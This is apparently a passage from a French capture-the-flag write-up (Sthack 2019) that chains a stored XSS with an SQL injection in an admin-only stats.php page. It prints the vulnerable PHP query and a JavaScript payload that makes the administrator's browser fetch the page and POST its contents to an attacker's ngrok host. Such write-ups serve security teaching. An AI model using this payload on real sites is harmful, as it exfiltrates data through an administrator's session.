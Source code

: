 
La page review_comment.php ne donnant rien, explorons la page /the-admin-secure-interface/index.php. Une fois le dump effectué on peut voir qu'il existe une page nommée /the-admin-secure-interface/stats.php.


## /the-admin-secure-interface/stats.php
Le dump de cette page révèle que cette page affiche les statistiques d'un film. Mais ce qui saute aux yeux, c'est qu'il y a une faille SQLi lors de la récupération des informations.

{% highlight php %}
<?php 
	$req = $bdd->query("select name,rating from movies where id='".$_GET['stats_id']."'");
	$res = $req->fetch();
	print_r($res);
?>
{% endhighlight %}

On peut voir que le paramètre GET est directement concaténé avec la requête SQL et qu'une nouvelle fois, il n'y a aucun contrôle sur les entrées utilisateur et aucune utilisation d'une solution sécurisée comme [PDO](https://www.php.net/manual/fr/book.pdo.php "Documentation de PDO") pour les requêtes SQL.

# Etape 6 : Exploitation de la faille SQLI
Pour exploiter cette faille, il faut avoir accès à la page mais seul l'administrateur peut accéder à cette page.

![cannont_access_stats](/assets/images/sthack_2019/cannot-access-stats.png)


Pour ce faire, il faut passer par la faille XSS pour forcer l'administrateur à effectuer l'attaque. Ce qui fait que l'exploit va se dérouler en trois étapes :
* Envoi de l'exploit via le commentaire et lecture du commentaire par l'administrateur
* A la lecture du commentaire, récupération en GET de la page stats.php avec en paramètre de la page, l'exploit SQLi
* Envoi du résultat de la requête GET en POST vers ngrok, pour que l'on puisse lire le résultat de l'exploit

## Présentation de la structure de l'exploit
Avant d'exploiter la faille SQLi, regardons de plus près la structure du payload.

{% highlight js %}
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
	<script type="text/javascript">
		$.get("/the-admin-secure-interface/stats.php?stats_id=1", function(data, status){
	    	
			$.post("http://XXXXXXXX.ngrok.io",
		  	{
			    html: decodeURIComponent(data)
			},
			function(data, status){});
	  	});	
	</script>
{% endhighlight %}
